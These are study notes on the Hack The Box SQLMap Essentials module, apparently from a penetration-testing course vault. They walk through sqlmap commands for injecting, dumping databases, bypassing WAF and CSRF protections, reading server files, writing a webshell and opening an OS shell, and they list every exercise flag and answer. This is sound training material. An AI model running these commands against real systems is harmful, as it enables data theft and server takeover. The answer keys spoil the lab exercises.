

# SQLMap Essentials (HTB Supplementary)

#SQLMap #SQLi #AutomatedExploitation #CSRF #Tamper #WAFBypass #OSShell #FileRead #JSONInjection #CookieInjection #HTTPRequest #HTBSupplementary

**HTB SQLMap Essentials module**, supplements the sqlmap section of Offsec Module 10 (SQL Injection Attacks). The Offsec module covers sqlmap basics (`-u`, `--data`, `-p`, `--batch`, `--dump`, `--technique`, `--os-shell`). This module adds the full advanced flag set: injection markers, request file mode, cookie/JSON injection, `--level`/`--risk` tuning, `--prefix`, `--union-cols`, CSRF token handling, parameter randomization, `--random-agent`, tamper scripts, `--search`, and `--file-read`.

Already in vault (cross-referenced): basic sqlmap discovery and dump workflow, `--os-shell --web-root`, `--technique=T`, `-D`/`-T` targeting. See [[SQL Injection Attacks#10.3.2. Automating the Attack|10.3.2]], [[SQL Injection & Databases|Command Appendix sqlmap section]].

> 🔁 Cross-refs: [[SQL Injection Attacks#10.3.2. Automating the Attack|10.3.2 sqlmap basics]], [[SQL Injection & Databases#sqlmap|Command Appendix sqlmap]], [[SQL Injection & Databases (Decision Tree)|SQLi Decision Tree]], [[SQL Injection Fundamentals (HTB Supplementary)]]

---

## Outstanding Sections

- [x] SME.1. SQLMap Overview (injection types and speeds)
- [x] SME.2. Running SQLMap on HTTP Requests (POST, Cookie header, JSON via -r file)
- [x] SME.3. Attack Tuning (--level/--risk, --prefix, --union-cols, --technique)
- [x] SME.4. Database Enumeration (-D -T targeting, --dump)
- [x] SME.5. Advanced Enumeration (--search -C, in-tool hash cracking)
- [x] SME.6. Bypassing Web Protections (--csrf-token, --randomize, --random-agent, --tamper)
- [x] SME.7. OS Exploitation (--file-read, --os-shell --technique=E)
- [x] SME.8. Skills Assessment (JSON POST time-blind + tamper chain)

---

## SME.1. SQLMap Overview — Injection Types and Speed

SQLMap automates SQLi detection and exploitation across MySQL, MSSQL, PostgreSQL, Oracle, SQLite, and others. The six injection types it tries, ranked fastest to slowest:

| Type | Technique flag | Speed | How it works |
|------|---------------|-------|-------------|
| **UNION query-based** | `U` | Fastest | Appends a second SELECT to the original; data comes back inline in the response |
| **Error-based** | `E` | Fast | Triggers DB error messages that contain extracted data (extractvalue/updatexml) |
| **Inline queries** | `Q` | Fast | Subquery in the SELECT list returns data directly |
| **Stacked queries** | `S` | Medium | Uses `;` to run a second SQL statement (e.g. xp_cmdshell) |
| **Boolean-based blind** | `B` | Slow | Asks yes/no questions (true/false) and reads one bit at a time |
| **Time-based blind** | `T` | Slowest | Uses SLEEP() delays to encode answers; no data in the response |

> 🔍 Worth remembering generally: the speed hierarchy matters when tuning sqlmap. If the target has protections that block UNION/error payloads, you end up on time-based blind which can take hours to dump a table. The `--technique=` flag lets you force or restrict which techniques sqlmap uses, skipping slow ones or targeting a specific one for practice.

**Q1 Answer:** `UNION query-based`

#### Tags: #SQLMap #InjectionTypes #UNION #TimeBlind

---

## SME.2. Running SQLMap on HTTP Requests

Four injection point types this module covers: GET params, POST body, Cookie headers, and JSON bodies.

### Case 1: GET parameter

```bash
# Simplest case — parameter in the URL
sqlmap -u 'http://TARGET:PORT/case1.php?id=1' --batch --dump
```

### Case 2: POST body parameter

```bash
# --data tells sqlmap to send a POST request with this body
sqlmap -u 'http://TARGET:PORT/case2.php' --data 'id=1' --batch --dump
```

### Case 3: Cookie header injection

When the vulnerable value is in a cookie rather than a URL parameter or POST body:

```bash
# -H injects a custom header. The * marks the injection point within the header.
sqlmap -u 'http://TARGET:PORT/case3.php' -H 'Cookie: id=*' --batch --dump
```

**Why the `*` marker:** sqlmap normally auto-detects which parameters to test. When the injection point is in a header value (not a named GET/POST parameter), sqlmap can't auto-detect it. The `*` explicitly marks "inject here." The same `*` syntax works in the URL too: `-u 'http://TARGET/case5.php?id=*'` tells sqlmap to inject at exactly that position rather than trying every parameter.

> 🔍 Worth remembering generally: the `*` injection marker is the escape hatch for any injection point sqlmap can't auto-detect. Use it in cookie values, custom headers (`-H 'X-Forwarded-For: *'`), or URL parameters that contain non-standard characters. Without it, sqlmap either misses the injection point entirely or tests the wrong field.

### Case 4: JSON body (via saved request file)

When the endpoint expects a JSON body like `{"id":1}`, capture the full HTTP request and save it to a file:

```
POST /case4.php HTTP/1.1
Host: TARGET:PORT
Content-Type: application/json
Content-Length: 8
[... other headers ...]

{"id":1}
```

```bash
# -r reads the full HTTP request from a file (headers + body)
# sqlmap auto-detects the JSON body and tests the id value inside it
sqlmap -r req.txt --batch --dump
```

**How to capture the request:**
- **Burp Suite:** Proxy tab → intercept the request → right-click → "Save item" or copy the raw request
- **Browser DevTools:** Network tab → click the POST request → "Raw" view for headers, "Request" tab for body → copy both into a text file

> 🔧 Technique: save the request to a file whenever the target uses JSON, multipart/form-data, XML, or has custom headers that `-u`/`--data` can't replicate. The `-r file.txt` approach is the cleanest way to replay any complex HTTP request exactly as captured.

**Q1-3 Answers:**
- Case 2 (POST): `HTB{700_much_c0n6r475_0n_p057_r3qu357}`
- Case 3 (Cookie): `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}`
- Case 4 (JSON): `HTB{j450n_v00rh335_53nd5_6r475}`

#### Tags: #SQLMap #POST #Cookie #JSON #InjectionPoint #RequestFile

---

## SME.3. Attack Tuning

Flags to push sqlmap harder when default detection misses something, or to constrain it to a specific technique.

### `--level` and `--risk`

```bash
# Default: --level 1 --risk 1
# Max: --level 5 --risk 3
sqlmap -u 'http://TARGET:PORT/case5.php?id=*' --level 5 --risk 3 -T flag5 --batch --dump
```

| Flag | Range | Effect |
|------|-------|--------|
| `--level` | 1-5 | How many injection points to test: 1=URL params only, 3=adds cookies, 5=adds User-Agent/Referer/Host headers |
| `--risk` | 1-3 | How dangerous the payloads get: 1=safe, 2=adds UNION-based time delays, 3=adds heavy OR-based payloads that can modify data |

> 🔧 Technique: `--level 5 --risk 3` is the "try everything" setting. Use it when default detection fails. Be aware that `--risk 3` payloads include `OR 1=1` variants that can affect all rows in UPDATE-type queries. Don't use `--risk 3` on production databases with live traffic.

### `--prefix` — custom injection prefix

When the backend query has non-standard structure (e.g. the injection point is inside a function call or a subquery), the default payloads break the syntax. Providing the exact prefix that closes whatever bracket structure precedes the injection point fixes this:

```bash
# Case 6: the query wraps the col param in something like: ORDER BY FIELD(`id`,...)
# Prefix closes the unexpected bracket before the payload
sqlmap -u 'http://TARGET:PORT/case6.php?col=id' --prefix='`)' --batch -T flag6 --dump
```

> 🔍 Worth remembering generally: if sqlmap finds nothing but you're certain the endpoint is injectable (single quote causes an error), try `--prefix`. Inspect the error message or the page source to understand the bracket/function nesting around your input, then craft a prefix that closes it cleanly before sqlmap's payload begins.

### `--union-cols` — force specific column count for UNION

When sqlmap's column count auto-detection is wrong (maybe the app filters on a specific column count):

```bash
# Case 7: UNION-based with exactly 5 columns
sqlmap -u 'http://TARGET:PORT/case7.php?id=1' -T flag7 --technique=U --union-cols=5 --batch --dump
```

| Flag | What it does |
|------|-------------|
| `--technique=U` | Restrict to UNION-based only (letters: B E U S T Q) |
| `--union-cols=5` | Tell sqlmap the UNION needs exactly 5 columns (skip auto-detection) |
| `--union-from=<table>` | Use a different FROM clause if `FROM DUAL` causes errors |
| `--union-char=a` | Use `a` instead of NULL for UNION column filler values |

**Q1-3 Answers:**
- Case 5 (--level 5 --risk 3): `HTB{700_much_r15k_bu7_w0r7h_17}`
- Case 6 (--prefix): `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`
- Case 7 (--union-cols): `HTB{un173_7h3_un173d}`

#### Tags: #SQLMap #AttackTuning #Level #Risk #Prefix #UnionCols #Technique

---

## SME.4. Database Enumeration

Target a specific database and table to avoid dumping everything (which takes much longer on time-based blind attacks):

```bash
# Enumerate everything (all databases, all tables, all data)
sqlmap -u 'http://TARGET:PORT/case1.php?id=1' --batch --dump

# Target a specific database and table
sqlmap -u 'http://TARGET:PORT/case1.php?id=1' -D testdb -T flag1 --batch --dump

# List databases only (no dump)
sqlmap -u 'http://TARGET:PORT/case1.php?id=1' --dbs --batch

# List tables in a specific database
sqlmap -u 'http://TARGET:PORT/case1.php?id=1' -D testdb --tables --batch

# List columns in a specific table
sqlmap -u 'http://TARGET:PORT/case1.php?id=1' -D testdb -T users --columns --batch
```

**Enumeration flag quick-ref:**
| Flag | What it fetches |
|------|----------------|
| `--dbs` | All database names |
| `--tables` | All table names in current DB (or `-D db` for a specific one) |
| `--columns` | All column names in a table (requires `-T table`) |
| `--dump` | Fetch all data from the target table(s) |
| `--dump-all` | Dump every table in every database |
| `--schema` | Full database schema (all DBs, tables, columns, types) |

> 🔍 Worth remembering generally: on a time-based blind target, dumping everything with `--dump` can take hours. Always add `-D` and `-T` to narrow the scope once you know your target table name. Use `--tables` first to enumerate what tables exist, then `-T` to target just the one you need.

**Output location:** sqlmap saves all dump results to `~/.local/share/sqlmap/output/<target_host>/dump/<db>/<table>.csv`. Useful when the table dumps scroll past the terminal. Check this directory with `ls ~/.local/share/sqlmap/output/`.

**Q1 Answer:** `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`

#### Tags: #SQLMap #DatabaseEnumeration #Dump #Tables #Columns

---

## SME.5. Advanced Enumeration

### `--search` — search for column/table/database names by keyword

```bash
# Search for columns whose name contains "style"
sqlmap -u 'http://TARGET:PORT/case1.php?id=1' --search -C style --batch
# -C = search in column names
# -T = search in table names
# -D = search in database names

# Output shows every column named like "%style%" across all accessible databases
# Result: PARAMETER_STYLE in information_schema.ROUTINES
```

### In-tool hash cracking

When sqlmap dumps a column that looks like password hashes, it prompts:
```
do you want to crack them via a dictionary-based attack? [Y/n/q]
```
Answer Y. sqlmap tries its bundled wordlist (`/usr/share/sqlmap/data/txt/wordlist.tx_`) and any system wordlists. For common/weak passwords this is faster than running hashcat separately.

```
# Example from module:
d642ff0feca378666a8727947482f1a4702deba0 → (Enizoom1609)
```

> 🔍 Worth remembering generally: sqlmap's built-in cracker is convenient but limited. If it misses a hash, copy it out and run hashcat or john separately. The hash is also logged in the CSV dump file so you can always retrieve it later without re-running sqlmap.

**Q1 Answer (column with "style"):** `PARAMETER_STYLE`
**Q2 Answer (Kimberly's password):** `Enizoom1609`

#### Tags: #SQLMap #Search #HashCracking #AdvancedEnumeration

---

## SME.6. Bypassing Web Application Protections

### CSRF token bypass (`--csrf-token`)

When a form includes an anti-CSRF token that changes with every request, sqlmap needs to re-fetch it before each injection attempt:

```bash
# Inspect the form: find the token field name (here: t0ken)
# Include the current token value in --data, then name it with --csrf-token
sqlmap -u 'http://TARGET:PORT/case8.php?' \
       --data 'id=1&t0ken=UDWvZvcqUsowsv6b5MhaSojBVJjkW0DVcNKXnZ2Fjw' \
       --csrf-token=t0ken \
       --batch --dump
```

`--csrf-token=t0ken` tells sqlmap: "the `t0ken` parameter is a CSRF token. Before each request, re-fetch the page, extract the current `t0ken` value, and substitute it." sqlmap does this automatically once you name the token field.

> 📸 Screenshot: Network tab showing the POST request with id and t0ken fields in the form data

### Unique parameter randomization (`--randomize`)

When the app rejects requests that repeat the same value for a specific parameter (e.g. a transaction UID that must be unique per request):

```bash
# --randomize=uid tells sqlmap to generate a fresh random value for uid each request
sqlmap -u "http://TARGET:PORT/case9.php?id=1&uid=2946408471" --randomize=uid --batch --dump
```

### User-Agent randomization (`--random-agent`)

Some WAFs block sqlmap's default User-Agent (`sqlmap/1.x ...`). Randomizing it pulls from a database of real browser User-Agent strings:

```bash
sqlmap -u 'http://TARGET:PORT/case10.php' --data="id=1" --random-agent --batch --dump
```

> 🔧 Technique: `--random-agent` is cheap and should be a default addition to any scan against a production app or WAF. The alternative is `--user-agent="Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0"` to set a specific string.

### Tamper scripts (`--tamper`)

Tamper scripts post-process each payload to transform/encode it so it bypasses string-matching filters. They're Python scripts in `/usr/share/sqlmap/tamper/`.

```bash
# --tamper=between replaces > with BETWEEN x AND y+1 and spaces with comments
# Bypasses WAFs that block > operators or require specific whitespace patterns
sqlmap -u 'http://TARGET:PORT/case11.php?id=1' --tamper=between -T flag11 --batch --dump
```

**Useful tamper scripts:**
| Script | What it does |
|--------|-------------|
| `between` | Replaces `>` with `BETWEEN x AND y+1`, `=` with `BETWEEN x AND x` |
| `space2comment` | Replaces spaces with `/**/` |
| `randomcase` | Randomizes case of SQL keywords (`SELECT` → `sElEcT`) |
| `base64encode` | Base64-encodes the payload (only works if the app decodes it) |
| `charencode` | URL-encodes non-standard characters |
| `apostrophemask` | Replaces `'` with its unicode full-width equivalent |

```bash
# Chaining multiple tamper scripts
sqlmap -u 'http://TARGET/' --tamper=between,space2comment,randomcase --batch --dump

# List all available tamper scripts
ls /usr/share/sqlmap/tamper/
```

> 🔍 Worth remembering generally: `--tamper=between` is the most commonly useful one for OSCP targets. It handles WAFs that block comparison operators, and it's safe (non-destructive). Try it first when default scans fail on a target that's clearly injectable manually.

**Q1-4 Answers:**
- Case 8 (CSRF token): `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}`
- Case 9 (randomize uid): `HTB{700_much_r4nd0mn355_f0r_my_74573}`
- Case 10 (random-agent): `HTB{y37_4n07h3r_r4nd0m1z3}`
- Case 11 (tamper=between): `HTB{5p3c14l_ch4r5_n0_m0r3}`

#### Tags: #SQLMap #WAFBypass #CSRFToken #Tamper #RandomAgent #Randomize

---

## SME.7. OS Exploitation

### File reading (`--file-read`)

When the MySQL user has FILE privilege, sqlmap can read arbitrary files and save them locally:

```bash
sqlmap -u "http://TARGET:PORT/?id=1" --file-read "/var/www/html/flag.txt" --batch
```

**Where sqlmap saves the file:**
```
~/.local/share/sqlmap/output/<host>/files/_var_www_html_flag.txt
```
The remote path is mapped to a local filename by replacing `/` with `_`. Print it:
```bash
cat ~/.local/share/sqlmap/output/TARGET/files/_var_www_html_flag.txt
```

> 🔧 Technique: sqlmap's `--file-read` uses the same LOAD_FILE() mechanism as the manual UNION approach, but handles multi-chunk retrieval automatically (important for large files where manual substring paging would take forever). The output is stored to disk, not just printed, check the files directory if the content doesn't appear in the terminal output.

### OS shell (`--os-shell`)

```bash
# --technique=E forces error-based (faster than time-blind for os-shell uploads)
sqlmap -u 'http://TARGET:PORT/?id=1' --os-shell --technique=E --batch
```

sqlmap's `--os-shell` workflow:
1. Writes a PHP/ASP file stager to the web root (via `INTO OUTFILE` or `LIMIT LINES TERMINATED BY`)
2. Uses the stager to upload the actual backdoor script
3. Opens an interactive `os-shell>` prompt that sends commands to the backdoor

```
os-shell> whoami
# www-data

os-shell> cat /flag.txt
# HTB{n3v3r_run_db_45_db4}
```

> 🔁 Similar to: [[SQL Injection Attacks#10.3.1. Manual Code Execution|10.3.1 INTO OUTFILE manual webshell]], same underlying mechanism (MySQL file-write privilege + webshell), but sqlmap handles the staging and cleanup automatically. The manual approach gives more control over the webshell filename and location; sqlmap's approach is faster when you don't need that control.

> 🔧 Technique: if `--os-shell` fails to find a writable web root automatically, add `--web-root "/var/www/html"` (or wherever you know the web root is from a previous LOAD_FILE of the Nginx/Apache config). See [[SQL Injection Fundamentals (HTB Supplementary)#SQIF.12. Skills Assessment|SQIF.12 Q2]] for the config-reading workflow.

**Q1 Answer (--file-read flag.txt):** `HTB{5up3r_u53r5_4r3_p0w3rful!}`
**Q2 Answer (--os-shell flag.txt):** `HTB{n3v3r_run_db_45_db4}`

#### Tags: #SQLMap #OSShell #FileRead #RCE #LOADFILE

---

## SME.8. Skills Assessment

**Target:** e-commerce web app with a JSON POST endpoint at `/action.php` (triggered by the "ADD TO CART" + button under Catalog → Shop).

**Chain:** capture JSON request → sqlmap with tamper + time-blind → enumerate tables → dump `final_flag`.

### Step 1: Capture the request

Open DevTools Network tab → click "+" button on any item → find POST to `/action.php` → copy raw headers + raw body into `request.req`:

```
POST /action.php HTTP/1.1
Host: TARGET:PORT
Content-Type: application/json
Content-Length: 8
[... headers ...]

{"id":1}
```

### Step 2: First pass — discover what's protected

```bash
sqlmap -r request.req --batch --dump
```
Default settings probably fail (WAF blocking comparison operators, User-Agent filtering, etc.).

### Step 3: Full attack with protections bypassed

```bash
# --level 5 --risk 3: aggressive coverage
# --random-agent: bypass UA-based WAF rules
# --tamper=between: bypass > and space filtering
# --technique=T: time-based blind (only technique that gets through)
sqlmap -r request.req --batch --dump \
       --level 5 --risk 3 \
       --random-agent \
       --tamper=between \
       --technique=T
```

When sqlmap starts returning table names, you'll see: `categories`, `brands`, `products`, `order_items`, `final_flag`, that's the database `production`.

### Step 4: Stop and target just the flag table

Ctrl+C once you see `final_flag` listed. Re-run targeting only what you need:

```bash
sqlmap -r request.req --batch --dump \
       --level 5 --risk 3 \
       --random-agent \
       --tamper=between \
       --technique=T \
       -D production -T final_flag
```

> 📸 Screenshot: sqlmap time-blind retrieval of final_flag table showing HTB flag in the content column

> 🔧 Technique: on time-based blind targets, interrupt (Ctrl+C) as soon as you have enough enumeration data to narrow the target. Each character of each field costs several HTTP requests with timing delays. Dumping an irrelevant table like `categories` wastes many minutes that time-blind mode can never get back. Enumerate tables first, then dump only the specific table you need.

**Skills Assessment attack chain (Mermaid):**


**Q1 Answer:** `HTB{n07_50_h4rd_r16h7?!}`

#### Tags: #SkillsAssessment #SQLMap #TimeBlind #Tamper #JSONInjection #WAFBypass

---

## All Q&A Answers

| Section | Q# | Answer |
|---------|----|--------|
| SQLMap Overview | 1 | `UNION query-based` |
| Running on HTTP Request | 1 | `HTB{700_much_c0n6r475_0n_p057_r3qu357}` |
| Running on HTTP Request | 2 | `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}` |
| Running on HTTP Request | 3 | `HTB{j450n_v00rh335_53nd5_6r475}` |
| Attack Tuning | 1 | `HTB{700_much_r15k_bu7_w0r7h_17}` |
| Attack Tuning | 2 | `HTB{v1nc3_mcm4h0n_15_4570n15h3d}` |
| Attack Tuning | 3 | `HTB{un173_7h3_un173d}` |
| Database Enumeration | 1 | `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}` |
| Advanced DB Enumeration | 1 | `PARAMETER_STYLE` |
| Advanced DB Enumeration | 2 | `Enizoom1609` |
| Bypassing Protections | 1 | `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}` |
| Bypassing Protections | 2 | `HTB{700_much_r4nd0mn355_f0r_my_74573}` |
| Bypassing Protections | 3 | `HTB{y37_4n07h3r_r4nd0m1z3}` |
| Bypassing Protections | 4 | `HTB{5p3c14l_ch4r5_n0_m0r3}` |
| OS Exploitation | 1 | `HTB{5up3r_u53r5_4r3_p0w3rful!}` |
| OS Exploitation | 2 | `HTB{n3v3r_run_db_45_db4}` |
| Skills Assessment | 1 | `HTB{n07_50_h4rd_r16h7?!}` |

---

## External Resources

- [sqlmap docs](https://github.com/sqlmapproject/sqlmap/wiki)
- [HackTricks, sqlmap](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/sql-injection/sqlmap/README.md)
- [PayloadsAllTheThings, sqlmap usage](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#sqlmap)
- [ippsec.rocks](https://ippsec.rocks/?#), search "sqlmap" for practical usage in box walkthroughs
- Tamper script list: `ls /usr/share/sqlmap/tamper/`

---

## Module Summary

SQLMap's full flag set covers every injection scenario: `*` markers for non-standard injection points, `-r file.txt` for complex requests, `--csrf-token` for token-rotating forms, `--randomize` for unique-value parameters, `--random-agent` for UA-based WAF bypass, `--tamper` scripts for payload transformation, `--level`/`--risk` for aggressive coverage, `--prefix` for non-standard bracket structures, `--union-cols` for column-count hints, `--search` for targeted enumeration, `--file-read` for FILE-privilege file extraction, and `--os-shell` for interactive backdoor access. The skills assessment demonstrates the typical WAF bypass stack: `--level 5 --risk 3 --random-agent --tamper=between --technique=T -D db -T table`.

**Key insight:** always narrow with `-D` and `-T` before dumping on time-based blind targets. Every unnecessary field costs minutes. Enumerate tables first, then dump only the target table.


---

## HTB Module Quick Reference

Commands formatted for use with the [[Pre-Engagement Kali Setup]] variable block.

```bash
# ============================================================
# BASIC USAGE
# ============================================================
sqlmap -h     # basic help
sqlmap -hh    # full advanced help

# GET parameter injection (--batch skips all interactive prompts)
sqlmap -u "http://$BoxIP/vuln.php?id=1" --batch

# POST data injection
sqlmap "http://$BoxIP/" --data "uid=1&name=test"

# Mark injection point with * in POST data
sqlmap "http://$BoxIP/" --data "uid=1*&name=test"

# Load full HTTP request from a Burp save file
sqlmap -r req.txt

# Specify a session cookie
sqlmap -u "http://$BoxIP/vuln.php?id=1" --cookie="PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"

# ============================================================
# TUNING
# ============================================================
# Custom prefix/suffix for non-standard bracket structures
sqlmap -u "http://$BoxIP/?q=test" --prefix="%'))" --suffix="-- -"

# Increase level (1-5) and risk (1-3) — more payloads, more aggressive
sqlmap -u "http://$BoxIP/?id=1" -v 3 --level=5 --risk=3

# WAF bypass stack: random UA + tamper script + max level/risk
sqlmap -u "http://$BoxIP/?id=1" --random-agent --tamper=between --level 5 --risk 3

# Anti-CSRF token bypass (--csrf-token value matches the token field name in HTML)
sqlmap -u "http://$BoxIP/" --data="id=1&csrf-token=WfF1..." --csrf-token="csrf-token"

# Store all traffic to a file for later review
sqlmap -u "http://$BoxIP/vuln.php?id=1" --batch -t /tmp/sqli-traffic.txt

# ============================================================
# ENUMERATION
# ============================================================
# DB fingerprint — version, user, DB name, DBA check
sqlmap -u "http://$BoxIP/?id=1" --banner --current-user --current-db --is-dba

# List tables in a specific database
sqlmap -u "http://$BoxIP/?id=1" --tables -D testdb

# Dump specific columns from a table
sqlmap -u "http://$BoxIP/?id=1" --dump -T users -D testdb -C name,surname

# Conditional dump (WHERE clause filter)
sqlmap -u "http://$BoxIP/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

# Search for a table or column name across all databases
sqlmap -u "http://$BoxIP/?id=1" --search -T user

# Enumerate and crack password hashes found in the dump
sqlmap -u "http://$BoxIP/?id=1" --passwords --batch

# List all available tamper scripts
sqlmap --list-tampers

# ============================================================
# FILE READ / OS SHELL
# ============================================================
# Read a server-side file (requires FILE privilege on the DB user)
sqlmap -u "http://$BoxIP/?id=1" --file-read "/etc/passwd"

# Write a webshell to the server (requires FILE privilege + writable web root)
sqlmap -u "http://$BoxIP/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

# Interactive OS shell (use --technique=E for error-based to avoid time delays)
sqlmap -u "http://$BoxIP/?id=1" --os-shell --technique=E
```
